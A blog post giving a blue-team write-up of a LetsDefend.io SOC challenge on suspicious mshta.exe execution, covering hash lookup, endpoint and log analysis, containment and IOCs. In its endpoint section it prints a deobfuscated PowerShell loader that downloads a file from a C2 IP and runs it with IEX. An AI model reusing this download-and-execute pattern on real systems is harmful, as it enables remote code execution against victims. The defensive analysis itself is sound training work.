 ```yaml
---
layout: post
published: true
title: write up - suspicious mshta behavior
author: admin
comments: true
date: '2022-04-13 18:00'
categories:
  - DFIR
---
```


I've been trying out [letsdefend.io](https://letsdefend.io/) for a couple of week, and here's a write up of one of the challenge. its a platform to hone your blue teaming skill, you play in a SIEM like apps and you act as an analyst, finding IOC and deciding escalation etc. There are not a lot of blue team training site, and this hands on concept by [letsdefend.io](https://letsdefend.io/) is great. 

With that intro about [letsdefend.io](https://letsdefend.io/) out of the way, here goes the write up. 
<!--more-->

![mshta behaviour](/images/wup_ld.png)

This is what the case looked like, basically a host execute hta file thus an alert is triggered. Our job is to see what really happened and do the intended playbook exercise. Some things that we can check to help with analysis are the hash (virustotal) and the IP address (we'll try command history/ proccess history at the endpoint security tab). Afterward we are gonna decide on containment (eradication and recovery) and last the lesson learned from said incident.

#### virustotal

We can use the hash we found at the first picture to search scan result at virustotal. The [result on virustotal](https://www.virustotal.com/gui/file/886095c7861a068d1ee603c71cb161f256941e802e743fe2161f30013947a2f1/detection) look pretty bad, 23/58 malicious flag. you could also try to find the file and do more analysis, but for now I think we can move to endpoint security tabs and do more analysis there.

#### endpoint security

![wup_endpoint](/images/wup_endpoint.png)

We use endpoint security tab to find out what was happening in the host 172.16.17.38. 
The screenshot above is from the command history portion of the tab, where we can see the first command line that trigger the alert, followed by another not so clear command.

```bash 
C:/Windows/System32/mshta.exe C:/Users/roberto/Desktop/Ps1.hta
```

The first command above is what triggered the alert. Mshta is a trusted Microsoft binary that in this case is abused for execution of the Ps1.hta file. 
you can see the related explanation here at the [MITRE](https://attack.mitre.org/techniques/T1218/005/)

Now we tried a bit of magic at the second command so it will be more readable. 

```bash
function H1($i) 
{$r = '' ; for ($n = 0; $n -Lt $i.LengtH; $n += 2)
{$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
$H2 = (new-object ('{1}{0}{2}' -f'WebCL','net.','ient'));
$H3 = H1 '446f776E';
$H4 = H1 '6C6f';
$H5 = H1 '616473747269';
$H6 = H1 '6E67';
$H7 = $H3+$H4+$H5+$H6;
$H8 = $H2.$H7('http://193.142.58.23/Server.txt');
iEX $H8
```

* $H3-H6 with the help of $H1 just basically hex that reads "Downloadstring". 
* $H2 was a glorified "New-Object Net.WebClient". 
* $H8 puts them all together to form an old fashion download using powershell from address mentioned in $H8 (http://193.142.58.23/Server.txt). 

So it's a call to C2 server 193.142.58.23, probably trying to download something.

#### log management

After seeing what the script do, we best check log management and try to see did the host (172.16.17.38) managed to reach the C2 server (193.142.58.23) what the C2 server reply with. We can do this by filtering source/ dest. address using host and/or C2 server IP that we had before. Below is the filtered result of from the log management tabs.

![wup_endpoint](/images/wup_logmgmt.png)

There we can see that the C2 server replied with 404, so no response arrived for the host (172.16.17.38) because the server is dead/ the file was not there.

#### containment and lesson learned

Based on our previous analysis, we can safely conclude that its a malicious script, but stopped due to the C2 server is dead. 
Next step would be to contain the host. We can do this by going to endpoint security and use the request containment button. 

Lastly, we can use the IP address, and URL and also the md5 hash of the executed file can as IOC when we did the playbook and also close the case.



